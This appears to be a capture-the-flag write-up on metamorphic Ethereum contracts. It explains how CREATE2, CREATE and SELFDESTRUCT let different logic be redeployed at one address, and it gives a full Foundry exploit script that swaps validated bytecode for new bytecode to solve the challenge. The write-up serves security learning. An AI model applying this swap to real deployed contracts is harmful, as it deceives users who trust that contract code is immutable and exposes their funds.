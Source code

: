 ```yaml
---
title: Illusion of Immutability
published: 2025-04-14
description: MidnightCTF, how evm smart contracts can be redeployed at the same address with different logic using CREATE2, CREATE, and SELFDESTRUCT.
image: ''
tags: ['evm', 'ctf', 'CREATE2', 'SELFDESTRUCT']
category: 'wu'
draft: false 
lang: 'en'
---
```


# Introduction

The final web3 challenge of the Midnight CTF revolves around a metamorphic contract. Fortunately, I had previously created a similar challenge for the Breizh CTF two years ago.

Here's a quick refresher on what a metamorphic contract is:

Smart contracts on Ethereum are widely considered immutable once deployed. However, this assumption doesn’t always hold true. In a this article by MixBytes, titled [*Metamorphic Smart Contracts: Is EVM Code Truly Immutable?*](https://mixbytes.io/blog/metamorphic-smart-contracts-is-evm-code-truly-immutable#rec562912282), the author dives into a class of contracts whose logic can *change over time*, despite having a static address.



## MixBytes TL;DR

Despite the common belief that smart contracts on Ethereum are immutable once deployed, **contracts can effectively change their logic** using advanced EVM patterns involving `CREATE`, `CREATE2`, and `SELFDESTRUCT`.


### Core Mechanism

#### EVM Contract Creation Ops:
In the Ethereum Virtual Machine (EVM), contracts are deployed using one of two opcodes:

- `CREATE`
- `CREATE2`

Both create a **new contract** on-chain, but the address where the contract is deployed differs between them.

---

#### **`CREATE` – Classic Deployment**

- **Usage:** 
```solidity
address = keccak256(rlp([sender, nonce]))[12:]
```
- **Key Variables:**
  - `sender`: the address creating the contract
  - `nonce`: the transaction count of the sender

**Important traits:**
- The address depends on the sender’s *current nonce*.
- Nonce **increments** with each contract creation, making the resulting address different for each txs.
- **Cannot redeploy** to the same address, unless the nonce is reset (e.g., via `SELFDESTRUCT`).

##### Why it's relevant to metamorphic contracts:
By using `SELFDESTRUCT`, a contract can erase itself and reset its nonce (if no further txs), allowing **`CREATE` to generate the same contract address again** with different code.

---

#### **`CREATE2` – Deterministic Deployment**

- **Usage:**  
  ```solidity
  address = keccak256(0xFF ++ sender ++ salt ++ keccak256(bytecode))[12:]
  ```
- **Key Variables:**
  - `sender`: deploying contract address
  - `salt`: 32-byte user-defined value
  - `bytecode`: init code of the contract being deployed

**Important traits:**
- Fully **deterministic** — given the same inputs, the contract will always deploy to the same address.
- Can be **redeployed** to the *same address*, *if the original contract was removed* (e.g., via `SELFDESTRUCT`).

#### Why it's relevant to metamorphic contracts:
- `CREATE2` is used to deploy a wrapper at a fixed address.
- That wrapper then uses `CREATE` to deploy the mutable logic.
- After destructing both the logic and the deployer, the same deployer can be re-deployed with `CREATE2`, enabling a **new logic contract** at the same fixed address.

---

### 🧬 Combined Flow — Step-by-Step:

| Step | Action | Purpose |
|------|--------|---------|
| 1 | Use `CREATE2` to deploy a `MutDeployer` contract at a fixed address | Enables predictable future redeployments |
| 2 | `MutDeployer` uses `CREATE` to deploy `MutableV1` | First version of the logic contract |
| 3 | Users interact with `MutableV1` at a known address | Appears immutable |
| 4 | Owner calls `SELFDESTRUCT` on `MutableV1` | Clears the address |
| 5 | Owner calls `SELFDESTRUCT` on `MutDeployer` | Resets its nonce, makes redeployment possible |
| 6 | Use `CREATE2` with same salt and bytecode to redeploy `MutDeployer` | Back to same address |
| 7 | `MutDeployer` uses `CREATE` to deploy `MutableV2` | New logic at same address as `MutableV1` |
| ✅ | Result: Different contract logic at the same address | Mutation complete, user unaware unless deeply inspecting |

## Official WU
You can find the official challenge write-up here:  
👉 [DoubleTrouble on NeoReo Blog](https://blog.neoreo.fr/posts/doubletrouble/)



## My foundry script solution

Below is the script I used to solve the challenge. You can execute it using:

`forge script script/Exploitoor.s.sol:ExploitScript --fork-url $RPC_URL --private-key $PRIVATE_KEY --broadcast`

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import "../src/chall.sol";

contract ExploitScript is Script {

    DoubleTrouble dt;
    function setUp() public {}

    function run() public {
        vm.startBroadcast();

        dt = DoubleTrouble(0x39dD11C243Ac4Ac250980FA3AEa016f73C509f37);

        Atomic a = new Atomic(address(dt));

        a.step1();

        //  Bypass the foundry local simulation error with slefdestruct not apply
        address(a).call(abi.encodeWithSignature("step2()"));

        // For some reason, when this tx is executed the `isSolved` var state is not yet updated to true
        // which is unexpected, because `step2()` set the var to true by solving the challenge =(
        (, bytes memory data) = address(dt).call(abi.encodeWithSignature("isSolved()"));
        bool s = abi.decode(data, (bool));
        console2.log(s);

        vm.stopBroadcast();
    }
}

contract Atomic {

    DoubleTrouble dt;

    constructor(address _dt) {
        dt = DoubleTrouble(_dt);
    }

    function step1() public  returns(address s1) {
        Deployer dp = new Deployer{salt : bytes32(hex"1234")}();

        s1 = dp.deploy1();

        dt.validate(s1);

        s1.call("");
        
        dp.destroy();
    }

    function step2() public returns (address s2) {
        Deployer dp = new Deployer{salt : bytes32(hex"1234")}();

        s2 = dp.deploy2();

        dt.flag(s2);
    }
}

contract Deployer{
    function deploy1() public returns(address){
        bytes memory x = hex"5fff";
        return address(new OurBytecode(x));
    }

    function deploy2() public returns (address){
        bytes memory x = hex"1f1a99ed17babe0000f007b4110000ba5eba110000c0ffee";
        return address(new OurBytecode(x));
    }

    function destroy() public {
        selfdestruct(payable(address(0x0)));
    }
}
contract OurBytecode{
    constructor(bytes memory code){assembly{return (add(code, 0x20), mload(code))}}
}
```